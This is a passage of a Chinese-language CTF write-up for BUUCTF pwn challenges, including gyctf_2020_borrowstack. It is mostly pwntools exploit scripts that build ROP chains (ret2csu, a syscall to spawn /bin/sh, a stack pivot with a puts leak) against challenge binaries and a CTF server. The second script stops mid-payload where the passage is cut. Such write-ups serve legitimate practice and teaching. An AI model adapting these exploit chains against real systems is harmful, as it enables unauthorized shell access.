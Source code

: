 


F088是泄露的地址，df70是输入存储的首地址（我打算把/bin/sh输入到这个地方）

然后就没什么了，偏移拿到之后，就可以写exp了。
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28000)
e=ELF('./a')
csu_gadget1=0x40059A
modify_rax=0x4004E2
csu_gadget2=0x400580
term_proc=0x600e50 #这个地址并不是term_proc的地址，而是指向term_proc的地址
bss_addr=0x601030
pop_rdi_addr=0x4005a3
syscall_addr=0x400517
read_syscall=0x4004ED
offset=16
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(read_syscall)
p.send(payload)
p.recvuntil('\x05\x40\x00\x00\x00\x00\x00') #这个用来筛选一下我们要找的数据
leak_addr=u64(p.recv(8))
print(hex(leak_addr))
bin_sh_addr=leak_addr-280
print(hex(bin_sh_addr))
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(csu_gadget1)
payload+=p64(0)+p64(1)
payload+=p64(term_proc)  #此时call一个空函数，我们用ret来劫持执行流
payload+=p64(0)+p64(0)+p64(0)#r13 r14 r15
payload+=p64(csu_gadget2)
payload+='a'*56
payload+=p64(modify_rax)
payload+=p64(pop_rdi_addr)+p64(bin_sh_addr) #把参数放到rdi里面
payload+=p64(syscall_addr)
p.send(payload)
p.interactive()
```

##BUUCTF上的gyctf_2020_borrowstack

这道题，我已经在栈迁移的那篇博客中发过了，这篇里面我就展示一下WP吧，具体细节可以看一下栈迁移的那篇博客。
```python 
#coding:utf-8
from pwn import *
p=process('./a')
context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
read_plt_addr=e.got['read']#why got here 
#call函数为跳转到某地址内所保存的地址，应该使用got表中的地址
pop_rdi_addr=0x400703
level_addr=0x400699
bss_addr=0x601080
ret_csu_addr=0x4006FA
rsi_addr=0x601118
payload1=0x60*'a'+p64(bss_addr+0x40)+p64(level_addr)#这里多加0x40的目的就是为了执行puts的时候，不影响之前的got表中的数据
p.sendafter('u want\n',payload1)
payload2='a'*0x40+p64(0)+p64(pop_rdi_addr)+p64(puts_got_addr)+p64(puts_plt_addr)
payload2+=p64(ret_csu_addr)+p64(0)+p64(0)+p64(read_plt_addr)+p64(0x100)
payload2+=p64(rsi_addr)+p64(0)+p64(0x4006E0)#why is there an address here
#这一个4006E0仅仅是ret2csu执行了pop之后的ret的返回的地址。
#至于怎么返回到one_gadget上的，是因为read的返回地址被read自己给改了
```